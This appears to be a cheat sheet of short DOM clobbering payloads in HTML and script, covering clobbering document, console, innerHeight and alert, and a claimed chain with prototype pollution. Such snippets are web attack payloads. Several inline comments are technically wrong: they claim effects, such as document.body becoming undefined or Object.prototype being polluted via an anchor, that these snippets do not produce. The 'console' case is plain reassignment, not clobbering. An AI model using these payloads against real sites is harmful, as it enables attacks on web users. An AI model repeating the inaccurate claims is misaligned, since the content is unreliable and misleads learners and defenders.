 ### Clobber document and Break DOM Access
```html
<form id="document"></form>
<script>
console.log(document.body); // Error: document.body is undefined
</script>
```

### Chain with Prototype Pollution
```html
<a id="proto" name="__proto__" href="polluted"></a>
<script>
let obj = {};
console.log(obj.polluted); // "polluted" if prototype pollution occurs
</script>
```

### Clobber console and Intercept Logs
```html
<form id="console"></form>
<script>
console.log = function() { alert('Intercepted!'); };
console.log('Test'); // Alerts "Intercepted!"
</script>
```

### Hijack innerHeight Property
```html
<form id="innerHeight"></form>
<script>
console.log(innerHeight); // Accesses form, not number
</script>
```

### Override document.write
```html
<form id="document"></form>
<script>
try {
  document.write('test'); // Throws or fails
} catch (e) {
  console.log('document.write hijacked');
}
</script>
```

### Combine iframe and form Clobbering
```html
<iframe id="alert" src="about:blank"></iframe>
<form id="alert"></form>
<script>
alert('This fails'); // Uses form
</script>
```

